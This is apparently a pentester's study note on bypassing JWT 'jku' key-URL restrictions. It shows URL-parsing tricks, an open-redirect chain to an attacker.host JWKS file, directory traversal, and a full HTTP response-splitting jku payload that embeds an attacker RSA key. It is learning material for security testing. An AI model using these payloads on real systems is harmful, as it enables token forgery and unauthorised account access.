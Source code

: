 JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`.

More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering. We covered some [examples of these](https://portswigger.net/web-security/ssrf#ssrf-with-whitelist-based-input-filters) in our topic on [SSRF](https://portswigger.net/web-security/ssrf).

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
    - `https://expected-host:fakepassword@**evil-host`**   due to the missing `**/` in filtration**
- You can use the `#` character to indicate a URL fragment. For example:
    - `https://**evil-host**#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully qualified DNS name that you control. For example:
    - `https://expected-host.**evil-host**`
- Steps
    - generate the key in BurpSuite
    - add this key to a file in the web server in this format
    - replace the `kid` in the JWT to match the generated key `kid`
    - add `jku`  with the file link

### → Bypass restricted `jku` parameter using Open Redirect

- if the application does not accept `jku` set to other hosts, and there is an endpoint vulnerable to open redirect, we can use an **Open Redirect** vulnerability to get our JWK file used and bypass the restriction (since our malicious URL will start with the URL of the vulnerable application).
- example:
- `https://vulnerable.com/redirect?uri=**/register**`  is vulnerable to open redirect, we can host our jwk and use that vulnerable endpoint to redirect the server to our jwk like the following:
    - `https://vulnerable.com/redirect?uri=**http://attacker.host/.well-known/jwks.json`**
    - we can use directory traversal if the server checks `.well-known`:  `https://vulnerable.com/.well-known/jwks.json/../../redirect?uri=**http://attacker.host/.well-known/jwks.json`**
- now we can sign the token using our generated key and make the server verify it using our jwk

### → Bypass restricted `jku` parameter using HTTP response splitting

we can use HTTP response splitting vulnerability to bypass `jku` restrictions, like the following

```
http://vulnerable.com/.well-known/../debug?value=any_value%0d%0aContent-Length: **LENGTH**%0d%0a%0d%0a**RESPONSE**
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/0b4baf19-2884-4a6b-8cb5-6691f6678107/3d168bb3-920a-40b7-8d91-d070f48dc5ba/Untitled.png)

- as shown above, we can add our JWK instead, like the following

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/0b4baf19-2884-4a6b-8cb5-6691f6678107/5d96ed58-34bd-4097-9ae8-bc012a07f8e1/Untitled.png)

we can use this vulnerable endpoint in `jku` to return our JWK and the server verifies using it

```json
"jku": "http://vulnerable.com/.well-known/../debug?value=1337%0d%0aContent-Length:%2043%0d%0a%0d%0a%7B%22keys%22:%5B%7B%22kty%22:%22RSA%22,%22use%22:%22sig%22,%22e%22:%22AQAB%22,%22kid%22:%22pentesterlab%22,%22n%22:%22qGkM2xNc2T1hXccAM5cTtW73hbV350hVjt0O2EF-0SA8dryPuKUcijGsMtFt8Ny5OdKAYao5QBqeA0PV_QfrlO06YUW4tRYb24IeQVKIjuYCOg92BZRTNex-wlKEUv16Daku1AN63FB_z3N_NXPpquG5n6Dtr9zaBZ7agSe1RHaPs5MTrJAiFHdz6AtpZ8MJldnbdf0PJ0NY7nvUyvut1BLKVcd5ikkCxY-bkXDHKcxHKktm7_2SGIXyU06-WxY9gsrWRpaqSnubPz8M0OfPPgrRKEEo4Z7flRh-dcoVhH94ZroGUe0rqbo7WctgSBAIloVOqx9REnB8BXjc-oMgTw%22,%22alg%22:%22RS256%22%7D%5D%7D"
```
